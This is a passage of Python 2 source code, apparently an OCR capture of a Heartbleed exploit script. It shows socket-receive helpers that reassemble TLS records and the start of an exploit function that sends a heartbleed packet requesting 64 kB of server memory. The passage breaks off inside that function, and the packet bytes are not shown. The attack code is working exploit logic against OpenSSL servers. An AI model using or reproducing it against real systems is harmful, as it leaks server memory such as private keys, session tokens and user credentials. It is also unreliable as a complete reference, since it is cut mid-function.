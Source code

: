         # Wait until the socket is ready to be read
        r, w, e = select.select([s], [], [], 5)
        if s in r:
            data = s.recv(remain)
            # EOF?
            if not data:
                return None
            rdata += data
            remain -= len(data)
    return rdata
          

# When you request the 64 kB of data, the server won't tell you that it will send you 4 packets.
# But you expect that because TLS packets are sliced if they are bigger than 16 kB.
# Sometimes, (for some misterious reason) the server wont send you the 4 packets;
# in that case, this function will return the data that DO has arrived.

def receiveTLSMessage(s, fragments = 1):
    contentType = None
    version = None
    length = None
    payload = ''

    # The server may send less fragments. Because of that, this will return partial data.
    for fragmentIndex in range(0, fragments):
        tlsHeader = recvall(s, 5) # Receive 5 byte header (Content type, version, and length)

        if tlsHeader is None:
            print 'Unexpected EOF receiving record header - server closed connection'
            return contentType, version, payload # Return what we currently have

        contentType, version, length = struct.unpack('>BHH', tlsHeader) # Unpack the header
        payload_tmp = recvall(s, length, 5) # Receive the data that the server told us it'd send

        if payload_tmp is None:
            print 'Unexpected EOF receiving record payload - server closed connection'
            return contentType, version, payload # Return what we currently have

        print 'Received message: type = %d, ver = %04x, length = %d' % (contentType, version, len(payload_tmp))

        payload = payload + payload_tmp

    return contentType, version, payload
    

def exploit(s):
    s.send(heartbleedPacket)
    
    # We asked for 64 kB, so we should get 4 packets
    contentType, version, payload = receiveTLSMessage(s, 4)
    if contentType is None: